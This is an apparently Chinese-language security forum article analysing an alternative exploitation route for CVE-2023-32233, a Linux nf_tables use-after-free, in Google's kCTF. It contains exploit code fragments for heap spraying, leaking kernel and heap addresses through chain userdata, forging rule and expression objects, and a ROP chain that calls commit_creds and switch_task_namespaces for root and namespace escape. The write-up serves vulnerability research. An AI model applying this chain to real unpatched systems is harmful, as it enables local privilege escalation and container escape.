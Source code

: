 

# 奇安信攻防社区-CVE-2023-32233 在 Google KCTF 中的漏洞利用方案分析

### CVE-2023-32233 在 Google KCTF 中的漏洞利用方案分析

这是对前文的补充，增加一种漏洞利用方案的分析，前文地址： https://forum.butian.net/share/2719 前文的漏洞利用的策略是通过占位 set 让 ext 指针错位，从而越界销毁相邻的 expr 实现任意地...

这是对前文的补充，增加一种漏洞利用方案的分析，前文地址：

```c
https://forum.butian.net/share/2719
```

前文的漏洞利用的策略是通过占位 set 让 ext 指针错位，从而越界销毁相邻的 expr 实现任意地址读写。

```c
static void nf_tables_set_elem_destroy(const struct nft_ctx *ctx,
                       const struct nft_set *set, void *elem)
{
    struct nft_set_ext *ext = nft_set_elem_ext(set, elem);

    if (nft_set_ext_exists(ext, NFT_SET_EXT_EXPRESSIONS))
        nft_set_elem_expr_destroy(ctx, nft_set_ext_expr(ext));

    kfree(elem);
}
```

本文的思路则是利用 NFT\_MSG\_DELSET 来使用 UAF 的 set，实现 set->name 的 double free.

```c
static void nft_set_destroy(const struct nft_ctx *ctx, struct nft_set *set)
{
    int i;
    if (WARN_ON(set->use > 0))
        return;

    for (i = 0; i < set->num_exprs; i++)
        nft_expr_destroy(ctx, set->exprs[i]);

    set->ops->destroy(set);
    nft_set_catchall_destroy(ctx, set);
    kfree(set->name); // set->name double free
    kvfree(set);
}

static void nft_commit_release(struct nft_trans *trans)
{
    switch (trans->msg_type) {
    case NFT_MSG_DELSET:
        nft_set_destroy(&trans->ctx, nft_trans_set(trans));
        break;
```

具体的步骤如下：

1.  创建 匿名 set （pwn\_lookup\_set）
2.  创建 rule 其中包含一个 lookup expr，该 expr 引用 pwn\_lookup\_set
3.  下发 netlink 批处理请求，批处理中有两个请求：NFT\_MSG\_DELRULE、NFT\_MSG\_DELSET
4.  nft\_commit\_release 处理 NFT\_MSG\_DELRULE 删除 rule 和 lookup expr，同时会释放 pwn\_lookup\_set
5.  nft\_commit\_release 处理 NFT\_MSG\_DELSET 时就会<span style="font-weight: bold;" data-type="strong">引用已经释放的 pwn\_lookup\_set，尝试再次释放 se</span>t.

在 4-5 之间使用另一个 set （race\_set）占位，内核执行完 5 后， race\_set 和 race\_set->name 的内存就会被释放，漏洞就转换为 race\_set 的 UAF

​​​![image](assets/1706770701-e3655d5f61a73c6073834fe59279a525.png)​​​

控制 race\_set 的 name 长度可以获取 dyn-kmalloc-256 的 UAF，堆喷 race\_set 控制 name 的代码如下

```c
    for (int spray = 0; spray != 0x20; ++ spray) {
        char *set_name;
        asprintf(&set_name, "race_set_%0200hx", spray);  // 分配 209 大小的 set_name
        pwn_create_set(batch, seq++, set_name, spray, NFT_SET_ANONYMOUS, sizeof(uaf_set_key), set_desc_size, 0, 0);
    }
```

为了获取方便的内存读写能力，使用 chain->udata 占位 set->name，然后释放 set 就能实现 chain->udata 的 uaf，分配 udata 的代码如下：

```c
static int nf_tables_addchain(struct nft_ctx *ctx, u8 family, u8 genmask,
                  u8 policy, u32 flags,
                  struct netlink_ext_ack *extack)
    ...

if (nla[NFTA_CHAIN_USERDATA]) {
        chain->udata = nla_memdup(nla[NFTA_CHAIN_USERDATA], GFP_KERNEL_ACCOUNT);    // [4]
        if (chain->udata == NULL) {
            err = -ENOMEM;
            goto err_destroy_chain;
        }
        chain->udlen = nla_len(nla[NFTA_CHAIN_USERDATA]);
    }
```

堆喷 chain->udata 占位的相关代码：

```c
    for(int i = 0 ; i < 0x20; i++){
        char *chain_name;
        asprintf(&chain_name, "spray_chain_%08hx", i);
        pwn_create_leak_chain(batch, seq++, chain_name);
    }
```

​![image](assets/1706770701-b177c4eace9b6ac4534f0525476d31b8.png)​

之后通过 NFT\_MSG\_GETCHAIN 就能读取 chain->udata 的数据，找一个有指针的对象占位 udata，就能泄露内核地址，这边使用的是 nft\_rule 结构体：

​![image](assets/1706770701-6db8a8118e1e9a5d2a64fccc431722df.png)​

rule 结构中的优点如下：

-   list 指针指向堆喷的相邻 rule，通过它可以泄露相邻堆块的地址，然后结合堆喷可以在相应地址上伪造数据。
-   rule 里面会内嵌 expr， expr 里面的 ops 指针保存了 KO 的地址，可以用来计算 gadget 的地址
-   rule 结构体占用的内存大小用户态可以控制

‍

rule 占位后通过 NFT\_MSG\_GETCHAIN 通过 chain->udata 读出对象的数据，泄露相关地址：

```c
        struct nlmsghdr *nlh = nftnl_nlmsg_build_hdr(
            mnl_batch_buffer,
            NFT_MSG_GETCHAIN,
            NFPROTO_INET,
            NLM_F_ACK,
            seq
        );

        char *chain_name;
        asprintf(&chain_name, "spray_chain_%08hx", i);

        nftnl_chain_set_str(chain, NFTNL_CHAIN_NAME, chain_name);
        nftnl_chain_set_str(chain, NFTNL_CHAIN_TABLE, "testfirewall");
        nftnl_chain_nlmsg_build_payload(nlh, chain);
        nftnl_chain_free(chain);

        if (mnl_socket_sendto(nl, nlh, nlh->nlmsg_len) < 0) {
            err(1, "Cannot into mnl_socket_sendto()");
        }

        memset(mnl_batch_buffer, 0, sizeof(mnl_batch_buffer));

        mnl_socket_recvfrom(nl, mnl_batch_buffer, mnl_batch_limit);

        nft_counter_ops =  *(unsigned long*) &mnl_batch_buffer[0x74];
        kbase = nft_counter_ops - NFT_COUNTER_OPS;
        heap_addr =  *(unsigned long*) &mnl_batch_buffer[0x64];
        victim_rule_handle = *(unsigned long*) &mnl_batch_buffer[0x6c] & 0xffff;
```

‍

泄露出堆地址和内核代码地址后，再利用 chain->udata 来伪造 rule 结构和 nft\_counter expr

​![image](assets/1706770701-2098625b9c993ca6350f4c5e896da2ca.png)​

最后 NFT\_MSG\_DELRULE 触发 `expr->ops->deactivate`​ 的调用进入 ROP

```c
void make_payload_rop(uint64_t* data){
    int i = 0;

    data[i++] = kbase + POP_RSI_RET;            // dummy
    data[i++] = 0;

    data[i++] = kbase + POP_RSI_RET;            // dummy
    data[i++] = 0;

    data[i++] = kbase + POP_RSI_RET;            // dummy
    data[i++] = kbase + PUSH_RAX_POP_RSP;       // expr->ops->deactivate()

    // find_task_by_vpid(1)
    data[i++] = kbase + POP_RDI_RET;
    data[i++] = 1;
    data[i++] = kbase + FIND_TASK_BY_VPID;

    // switch_task_namespaces(find_task_by_vpid(1), &init_nsproxy)
    data[i++] = kbase + MOV_RDI_RAX_RET;
    data[i++] = kbase + POP_RSI_RET;
    data[i++] = kbase + INIT_NSPROXY;
    data[i++] = kbase + SWITCH_TASK_NAMESPACES;

    // commit_creds(&init_cred)
    data[i++] = kbase + POP_RDI_RET;
    data[i++] = kbase + INIT_CRED;
    data[i++] = kbase + COMMIT_CREDS;

    data[i++] = kbase + VFORK;
    data[i++] = kbase + DELAY;
}
```

‍

‍

<span style="font-weight: bold;" data-type="strong">总结</span>

struct rule 这种结构体中同时存在链表指针、内核镜像/ko地址 的对象是用于地址泄露非常理想的对象，可以同时泄露出堆地址和代码段地址，一般堆地址可能还可以通过内核逻辑进行占位从而控制数据，实现在内核特定地址中布置数据的功能，这个能力对于伪造内核对象来说是非常重要的功能。

‍

对于桌面端内核漏洞 (ubuntu 有 ns 权限) 利用而言，netlink 里面的这些对象可以很方便的辅助漏洞利用。

‍

<span style="font-weight: bold;" data-type="strong">参考</span>

1.  [https://github.com/google/security-research/blob/master/pocs/linux/kernelctf/CVE-2023-32233\_mitigation/docs/exploit.md](https://github.com/google/security-research/blob/master/pocs/linux/kernelctf/CVE-2023-32233_mitigation/docs/exploit.md)

‍
